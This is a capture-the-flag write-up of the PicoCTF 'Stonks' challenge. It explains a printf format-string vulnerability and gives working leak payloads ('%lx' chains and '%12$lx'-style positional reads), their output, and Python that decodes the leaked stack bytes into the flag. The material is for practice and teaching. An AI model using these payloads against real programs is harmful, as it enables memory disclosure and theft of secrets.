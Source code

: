 ```yaml
---
layout: post
tags:
  - sjqr:ua
  - writeup
  - picoctf
  - binary-exploitation
---
```


# PicoCTF: Stonks

[Original challenge *(requires login)*](https://play.picoctf.org/practice/challenge/105)

## Finding the vulnerability

I knew going into this that the vulnerability would be a `printf` format string-related one, which is pretty familiar territory for me.
When I set up my environment for the challenge, this was confirmed:

```
; gcc -Wall -Wextra vuln.c -o vuln.exe
stonks/vuln.c: In function ‘buy_stonks’:
stonks/vuln.c:93:2: warning: format not a string literal and no format arguments [-Wformat-security]
   93 |  printf(user_buf);
      |  ^~~~~~
# (omitted some unused variable warnings)
```

Just goes to show: Always compile with warnings.
It could have saved this dev from making this mistake.

It also saved *me* from having to dig for the vulnerable line, since it's... right there.
A very quick check shows that it's user input from when you're prompted to enter your API token:

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

The way this vulnerability is gonna work is pretty simple:
Because they called `printf` with *our input* as the format string, we can slide some `%lx`s in there.
Arguments to variadic functions like `printf` are passed on the stack, so any format specifiers we put in there will read data off the stack, and conveniently, that's where the flag is sitting:

```c
// FLAG_BUFFER == 128
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
  printf("Flag file not found. Contact an admin.\n");
  exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```

So it's just a matter of finding the right offset to start at, dumping enough to cover the length of the flag, and then parsing it.
Finding the offset is a bit tedious, but by putting a [de Bruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence) sequence in the flag file, it's pretty simple:

```py3
from pwn import *
cyclic_gen(string.digits).get(128)
# => '00001000200030004000500060007000800090011001200130014001500160017001800190021002200230024002500260027002800290031003200330034003'
```

Notice I picked `string.digits`: I'm gonna be looking at hex, and the byte value for each digit is just `0x30` plus that digit, which makes it easier to read.

## Testing and building

So now we build a format string.
I'm going to be using `%lx`, printing out `long`s as hex, and I'm gonna use 20, separated by `.`.
You could also do 20 `%016lx`; I just prefer the dots because I find it easier to reason about endianness if I can clearly see the chunks delimited.
Note the `l` in both, though: On my system, all arguments are treated as at least 8 bytes wide, and `%x` only prints out the last 4 of those bytes.
That's part of why I picked a de Bruijn sequence; it's long enough to fill up a lot of space while still being pretty easy to tell if anything is missing.

When we pass in the format string, we get out:

```
What is your API token?
%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx
Buying stonks with token:
7fe6f1a9b723.0.7fe6f19c01e7.1a.7fffffff.7ffcf52f0a40.556f3c9ac2a0.200000000.556f3c9ac6d0.556f3c9ad9e0.556f3c9ada00.3030303130303030.3030303330303032.3030303530303034.3030303730303036.3130303930303038.3130303231303031.3130303431303033.3130303631303035.3130303831303037
```

And we see, starting at 'argument' 12, our de Bruijn sequence: `3030303130303030` is `00010000`, which is the first eight bytes backwards.

## Cleaning it up

Now that we have our offsets, we can use a less brute-force approach and target the exact indices we actually want:

```py3
# flag is max. 128 bytes long, %lx prints 8 bytes per format specifier
'.'.join(f'%{i}$lx' for i in range(12, 12 + (128//8)))
# => %12$lx.%13$lx.%14$lx.%15$lx.%16$lx.%17$lx.%18$lx.%19$lx
```

The `%n$` syntax is a non-standard extension, but the server supports it, so it's fair game.
It lets us get an argument by index, rather than having to go through all of the arguments before it, and it makes parsing the output just a little easier.
It's not necessary, though, if your target doesn't support it.

```
What is your API token?
%12$lx.%13$lx.%14$lx.%15$lx.%16$lx.%17$lx.%18$lx.%19$lx
Buying stonks with token:
3030303130303030.3030303330303032.3030303530303034.3030303730303036.3130303930303038.3130303231303031.3130303431303033.3130303631303035
```

This output is pretty simple to parse:

```py3
resp = # ...
chunks = resp.split(b'.')
nums = (int(c, 16) for c in chunks)
byteses = (i.to_bytes(8, 'little') for i in nums)
flag_bytes = b''.join(byteses)[:MAX_FLAG]
flag = flag_bytes.decode('utf-8')
```

In order, that:

- Splits our period-separated chunks into just the chunks
- Parses each as an integer
- Converts that integer to little-endian bytes (this may need to be tweaked to work when running locally)
- Joins all the chunks of bytes together
- Converts that to text

Which gets us our flag!
It could also have been a "one-liner", but I chose to break it into small steps to make it easier to see, step by step, what was going on.

My [actual solution](./solve.py) has some extra bits to be self-contained; as long as you have a C compiler on your system accessible as `cc` -- which, after installing any C compiler on a Linux system, you should -- it'll compile `vuln.c`, copy your flag file next to it, and run it, all on its own.
It also of course includes the machinery to dump the stack on its own.
It *also* includes some extra machinery to handle the differences between my local machine and the server, trim the flag at the first null, etc.
But the bulk of the work, the actual reverse-engineering and exploitation, is what I've described in this post.
